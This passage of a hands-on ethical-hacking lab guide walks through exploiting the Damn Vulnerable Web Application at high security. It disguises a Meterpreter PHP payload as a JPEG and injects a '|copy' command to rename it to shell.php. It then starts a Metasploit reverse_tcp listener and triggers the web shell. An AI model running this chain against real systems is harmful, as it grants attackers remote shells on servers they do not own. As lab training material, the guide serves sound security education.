 	86. Now, in the terminal window, type cd /home/attacker/Desktop/ and press Enter to navigate to the Desktop.
	87. Type pluma high.jpeg and press Enter to launch the Pluma text editor.
	
	88. The Pluma text editor window appears; press Ctrl+V to paste the raw payload copied in Step 85. Edit the payload file by adding GIF98 to the first line and then press Ctrl+S to save the context.
	
	89. Close all open windows.
	90. Click the Firefox icon from the top section of Desktop, type http://10.10.1.22:8080/dvwa/login.php into the address bar and press Enter. The DVWA login page appears. Log in with the credentials admin and password, and click the Login button.
If a Would you like Firefox to save this login notification appears at the top of the browser window, click Don’t Save.
	91. The Welcome to Damn Vulnerable Web Application! Page appears; click DVWA Security in the left pane to view the DVWA security level.
	92. Change the Security Level from impossible to high by selecting High from the drop-down list and clicking the Submit button, as shown in the screenshot.
	
	93. Click the File Upload option in the left pane. The Vulnerability: File Upload page appears. Click the Browse… button to upload a file.
	
	94. The File Upload window appears. Navigate to the Desktop location, select the payload file high.jpeg, and click Open.
	
	95. Observe that the selected file (high.jpeg) appears to the right of the Browse… button.
	96. Now, click the Upload button to upload the file to the database.
	
	97. You will see a message saying that the file has been uploaded successfully, along with the location of the uploaded file. Note down this location.
	
	98. Now, click the Command Injection option in the left pane. The Vulnerability: Command Injection window appears; in the Enter an IP address field, type |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php and click the Submit button.
	
	99. Observe a message saying that the file has been copied, as shown in the screenshot.
	
	100. Launch a Terminal window by clicking on the MATE Terminal icon at the top of Desktop.
	101. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	102. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	103. Now, type cd and press Enter to jump to the root directory.
	
	104. In the Terminal window, type msfconsole and press Enter to launch the Metasploit framework.
	105. In msfconsole, type use exploit/multi/handler and press Enter to begin setting up the listener.
	106. You have to set up a listener so that you can establish a Meterpreter session with your victim. Follow the steps given below to set up a listener using the msf command line:
	• Type set payload php/meterpreter/reverse_tcp and press Enter
	• Type set LHOST 10.10.1.13 and press Enter
	• Type set LPORT 2222 and press Enter.
	• Type run and press Enter to start the listener
	
	107. Switch to the Mozilla Firefox window where the DVWA website is open. Open a new tab, type http://10.10.1.22:8080/dvwa/hackable/uploads/shell.php into the address bar and press Enter to execute the uploaded payload.
	
